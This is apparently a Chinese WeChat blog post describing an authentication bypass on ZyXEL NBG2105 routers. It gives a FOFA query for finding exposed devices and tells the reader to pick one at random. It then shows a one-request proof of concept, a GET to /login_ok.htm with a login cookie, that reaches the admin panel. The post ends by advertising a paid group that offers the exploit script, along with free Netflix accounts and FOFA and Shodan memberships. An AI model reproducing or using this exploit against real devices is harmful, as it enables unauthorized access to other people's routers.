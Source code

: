 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tAuwveDCgbRj8O_MC1muaw)

fofa 语句：  

app="ZyXEL-NBG2105"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv1Qc25DxHEad2r6chXORhGKBPzRjKKBUS6hAScWxfxwXLmqqXic5HoAlI1TD5LxOR3QgOuoSshLjbg/640?wx_fmt=png)

我们随便点一个进入  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv1Qc25DxHEad2r6chXORhGKJB39vIUbTSNytib2AMEPGibOFJEic7hrLK3XeOmKLf4ymKjTh3R5Yia5Ig/640?wx_fmt=png)

接着使用 POC  

```
GET /login_ok.htm
Host:xxx.xxx.xxx.xxx
cookie:login=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv1Qc25DxHEad2r6chXORhGK0tyicCDPU1xxu2gBCRyXDhCyP1icp8aPrniaU0BmOMOvYsN9CQe1PTB1A/640?wx_fmt=png)

直接进入后台  

参考链接：

https://mp.weixin.qq.com/s/7zOUGx88R7Sfvc3M1CzygA

实际上经过多次测试，并不需要修改 cookie 里的 login=0  

直接访问 login_ok.htm，即可直接跳转到后台首页  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv1Qc25DxHEad2r6chXORhGKcsh2kxpYbT2hct8ux36dtm1YNmoeGkgicWzalaprVcru1YHrbnlIUdw/640?wx_fmt=png)

脚本已经有师傅写好，放在星球了  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv1Qc25DxHEad2r6chXORhGKcE4MWtyj4pRMVmd1jUtVsmyVcOOu74czqpuCZrl92zIIuj6oB50TSQ/640?wx_fmt=png)

最近有师傅说如果奈飞 Netflix 账号用完还有再送吗，从现在起将分享永久奈飞 Netflix 账号，账号过期了将重新发放新的账号！

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球，送 fofa 永久会员，送永久奈飞 Netflix 账号，送 shodan 永久会员，送 xray 高级版）

看了一下，优惠券剩下不到十张，希望师傅们支持支持啦🐟

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2tIK3J1GBGCLb8GVeooQd50gLXzqicYXsc0obViaJNtPnnRGxJb9lcmQ10ZfNLBicm2tAB9hjNPkUFQ/640?wx_fmt=png)

当然也可以通过下面方式进入  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8FKV3NktCRVJ7W14sblwk73stL4P86DViaCoG069BgrcIFVZShmW6ZbMA/640?wx_fmt=png)